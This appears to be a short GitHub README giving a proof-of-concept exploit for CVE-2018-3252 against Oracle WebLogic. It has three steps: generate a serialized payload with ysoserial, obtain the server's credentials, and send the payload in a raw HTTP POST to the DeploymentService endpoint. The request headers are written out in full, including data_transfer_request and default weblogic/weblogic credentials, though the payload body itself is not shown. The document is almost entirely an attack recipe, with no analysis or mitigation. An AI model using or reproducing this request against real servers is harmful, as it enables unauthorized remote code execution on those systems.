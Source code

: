 # CVE-2018-3252-PoC


#### 1.Generate PoC with YSOSERIAL


#### 2.You should know the `USERNAME` and `PASSWORD` of the target weblogic server


#### 3.Send the payload to the URL


```
POST /bea_wls_deployment_internal/DeploymentService HTTP/1.1
Host: 127.0.0.1:7001
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Upgrade-Insecure-Requests: 1
wl_request_type: data_transfer_request
username: weblogic
password: weblogic
serverName: pyn3rd
deployment_request_id: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/50.0.2661.75 Safari/537.36 QQBrowser/4.1.4132.400
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8
Connection: close
Content-Length: 3334
```
